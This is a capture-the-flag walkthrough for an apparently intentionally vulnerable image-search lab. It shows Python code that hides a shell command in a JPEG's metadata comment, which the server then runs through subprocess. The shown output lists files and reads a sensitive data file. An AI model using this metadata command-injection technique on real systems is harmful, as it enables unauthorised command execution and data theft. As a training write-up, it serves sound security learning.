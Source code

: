 # Objectives

Compromise the product search functionality using the file upload option to get the sensitive information file.

# Solutions

Firstly, let's see what happens when we upload a picture. We can see the page is loading and generating similar products. if we try to look at the requests that were made, we can see this:

![image](https://github.com/user-attachments/assets/8541ad33-0f6f-4c8a-a9d7-a8e1fd0862ba)

As you can see, we have one error. When we go look at it we see the following message:

```
"Error preprocessing images: An error occurred while trying to preprocess the images. Please try again later.\n For more details, visit our GitHub repository: https://github.com/orcasecurity-research/image-preprocessing-ai-goat"
```

Well we know we need to compromise a functionality in the image search process, and we just got a link to a github with some of the code, so let's go check it out!

The given library is quite small, and the obvious vulnerability pops right up - someone decided to read the metadata of the image, and execute it via subprocess.

![image](https://github.com/user-attachments/assets/f77b75b0-6c7a-484a-bcab-b945e90384c5)

so it seems like all we need to do is to insert there the command we want to be preformed. 

we use PIL to generate an image and insert a command into its metadata - 'ls -l /home/ec2-user' :

```
from PIL import Image, JpegImagePlugin

image = Image.new('RGB', (100, 100), color=(73, 109, 137))

metadata_comment = 'ls -l /home/ec2-user'

image.save('vulnerable_image.jpeg', "JPEG", quality=95, comment=metadata_comment)
```

then when uploading to the website, we get an error for analyze-photo, but in the response we get the output of the command we sent. 

the output we got is - 

```
total 120
-rw-r--r-- 1 ec2-user ec2-user 15221 Jul 30 12:23 app.py
-rw-r--r-- 1 ec2-user ec2-user  2745 Jul 30 12:23 categories.json
-rw-r--r-- 1 ec2-user ec2-user  8987 Jul 30 12:23 migrate_data.py
-rw-r--r-- 1 ec2-user ec2-user  8658 Jul 30 12:23 models.py
-rw-r--r-- 1 ec2-user ec2-user 61877 Jul 30 12:23 products.json
drwxr-xr-x 2 root     root        84 Jul 30 12:27  __pycache__
-rw-r--r-- 1 ec2-user ec2-user   102 Jul 30 12:23 requirements.txt
-rw-r--r-- 1 ec2-user ec2-user    89 Jul 30 12:23 user_data.json
-rw-r--r-- 1 ec2-user ec2-user   868 Jul 30 12:23 vulnerable_image_processor.py
```
We know we are looking for some sensitive information, so we'll try at the user's home folder now and get: 

```
total 8
drwxr-xr-x 3 root root  206 Jul 30 12:27 backend
-rw-r--r-- 1 root root   73 Jul 30 12:26 sensitive_data.txt
-rwxr-xr-x 1 root root 1323 Jul 30 12:23 setup.sh
```
and we have here a file named sensitive_data.txt! lets just read its contents: 

```
"{user_recommendations_dataset: sagemaker-recommendation-bucket-q37ltzqo}"
```
And that's it - we've succesfully finished the first challenge.


https://github.com/user-attachments/assets/e1aa8d50-e448-43e1-a014-3f9e18818a30

